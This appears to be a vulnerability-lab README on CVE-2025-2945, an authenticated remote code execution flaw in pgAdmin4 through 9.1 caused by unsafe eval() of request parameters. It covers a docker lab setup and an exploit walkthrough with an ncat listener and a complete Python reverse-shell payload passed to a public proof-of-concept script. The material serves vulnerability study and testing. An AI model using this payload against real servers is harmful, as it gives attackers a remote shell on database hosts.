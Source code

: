 # pgAdmin4 <= 9.1 Authenticated Remote Code Execution (CVE-2025-2945)

pgAdmin is a popular and feature rich Open Source administration and development platform for PostgreSQL.

A remote Code Execution security vulnerability in pgAdmin 4. The vulnerability is associated with the 2 POST endpoints; /sqleditor/query_tool/download, where the query_commited parameter and /cloud/deploy endpoint, where the high_availability parameter is unsafely passed to the Python eval() function, allowing arbitrary code execution. This issue affects pgAdmin 4: before 9.2.

References:

- https://nvd.nist.gov/vuln/detail/CVE-2025-2945
- https://github.com/advisories/GHSA-g73c-fw68-pwx3

## Environment

```bash
docker compose up -d
```

Then access http://localhost:5050/ for pgAdmin4 login page. pgAdmin4 username and password: `vulhub@example.com:vulhub`.

Exploiting this vulnerability also requires an accessable PostgresSQL database instance (to initialize the sql editor). It is already included in the docker-compose.yml and added to pgAdmin4's server list. Database username and password: `vulhub:vulhub`.

## Exploit

To exploit the server, use metasploit's `exploit/multi/http/pgadmin_query_tool_authenticated`, or a standalone python script: https://github.com/Cycloctane/cve-2025-2945-poc/blob/main/exp.py .

Open a tcp listener for reverse shell:

```bash
ncat -lvvp 1337
```

Then run the `exp.py` with python reverse shell payload. Also input the credentials of pgAdmin4 (`--username` and `--password`) and one of the postgres databases in pgAdmin4's server list (`--db-user` and `--db-pass`).

```bash
./exp.py --target-url http://<target-ip>:5050 \
    --username vulhub@example.com --password vulhub \
    --db-user vulhub --db-pass vulhub --db-name vulhub \
    --payload 'exec("import sys,socket,os,pty;s=socket.socket();s.connect((\"<your-ip>\",1337));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")")'
```

![exp](1.png)
